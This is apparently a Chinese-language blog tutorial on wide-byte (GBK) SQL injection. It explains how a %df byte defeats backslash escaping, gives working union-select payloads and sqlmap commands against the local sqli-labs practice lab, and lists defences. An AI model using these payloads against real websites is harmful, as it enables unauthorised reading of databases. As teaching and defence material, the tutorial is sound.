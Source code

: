 ```yaml
---
layout: post
title: "1.4.1-SQL注入防御绕过-宽字节注入"
date: 2018-06-30
category: web安全
tags: sql注入
---
```


## 01 宽字节注入原理

> 什么是宽字节
> GB2312、GBK、GB8030、BIG5、Shift_JIS等这些都是常说的宽字节，实际为两字节。

站点可能为了防止SQL注入，会加\转义'，最后变成\'  

![]({{site.img_link}}/09/01.jpeg)

MySQL在使用GBK编码的时候，会认为两个字符为一个汉字。
使用%df'进行编码，两个字符组合，认为是一个汉字。  
注：前一个Ascii码大于128才能到汉字的范围

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/09/02.jpeg)

## 02 宽字节注入方法

	http://127.0.0.1/sqli-labs/Less-32/?id=%df' union select 1,(select user()),3--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/09/03.jpeg)

	http://127.0.0.1/sqli-labs/Less-32/?id=%df' union select 1,(select table_name from information_schema.tables where table_schema=database() limit 0,1),3--+ // 查表

	sqlmap:
	sqlmap -u "http://127.0.0.1/Less-32/?id=1" // 判断id不是注入点 因为被转义

	sqlmap -u "http://127.0.0.1/Less-32/?id=1%df" // 通过宽字节注入

--- 

> 宽字节注入应对策略：
+ 使用utf-8,避免宽字节注入；
ps：不仅在gbk，韩文、日文等等都是宽字节，都有可能存在宽字节注入漏洞。

+ mysql_real_escape_string,mysql_set_charset('gbk',$conn) // 替换 和 编码 两个函数一起使用

+ 可以设置参数，charcater_set_client=binary // 设置mysql的连接参数，使用二进制模式

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/09/04.png)

































